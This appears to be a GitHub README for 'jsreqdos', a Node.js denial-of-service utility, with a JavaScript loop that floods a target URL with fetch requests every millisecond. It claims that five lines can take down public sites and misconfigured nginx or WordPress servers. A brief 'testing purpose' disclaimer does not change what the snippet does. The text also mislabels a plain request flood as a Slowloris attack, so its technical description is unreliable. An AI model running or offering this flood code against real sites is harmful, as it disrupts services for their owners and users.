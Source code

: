 # jsreqdos
Slowloris DOS utility made in nodejs.

## Usage
This is made for testing purpose, and should not be used on foreign resources, as it may cause damage.

This uses slowloris type of attack to send thousands of requests per second.

This should also be taken in consideration by many public sites, as 5 lines of code are enough to take them down.
```javascript
worker = setInterval(()=>{
    for(let i =0;i<threads;i++){
        fetch(target).then(()=>{}).catch(()=>{})
    }
},1)
```
Every incorrectly initiated nginx instance or wordpress website can be overloaded with this.
